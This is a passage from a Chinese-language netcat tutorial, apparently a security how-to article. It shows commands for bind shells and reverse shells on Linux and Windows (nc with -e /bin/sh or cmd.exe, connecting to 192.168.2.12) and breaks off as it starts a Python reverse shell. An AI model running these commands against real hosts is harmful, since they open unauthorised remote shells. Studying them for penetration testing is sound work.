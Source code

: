 在客户端输入命令，监听 4444 端口：

```
linux：
nc -lvp 4444 -e /bin/sh
windows：
nc.exe -lvp 4444 -e c:\windows\system32\cmd.exe

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tMK8YdBgW1KdZJw6WPZibV3tZ9iaeBIFVbKbK3ibezKC9KwqE6ymDowNJQ/640?wx_fmt=png)

  

在服务端连接客户端命令，连接成功就可以执行 shell：

```
nc 192.168.2.12 4444

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t8H0hQj3xbXPUbxCWeCmNeb9u3lYUVgUibqwnPLWhQgEuuJfiataZwyug/640?wx_fmt=png)

  

（9）获取反向 shell

在服务端监听本地 6666 端口：

```
nc -lvp 6666

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tmULeIkic0CP0u52Jz8SRaB7fP0Qd1cnu2eQ1cBLFTLYpib99lTy3axJQ/640?wx_fmt=png)

  

在客户端连接服务端的 6666 端口，并反弹 shell：

```
linux:
nc 192.168.2.12[服务端ip] 6666 -e /bin/sh
windows:
nc 192.168.2.12[服务端ip] 6666 -e c:\windows\system32\cmd.exe

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tgsiaXrY4RMyuaFau1EGCibFWhHib7qwJiaOWmVo5VeUdgDRc547tWfEmPQ/640?wx_fmt=png)

  

（10）python 反弹 shell

在一般情况下，目标主机是不可能有 nc 这款工具的，但是目标主机上有其他编程语言的环境，我们可以借助反弹 shell：

在服务端监听本地端口 6666：

```
nc -lvp 6666

```
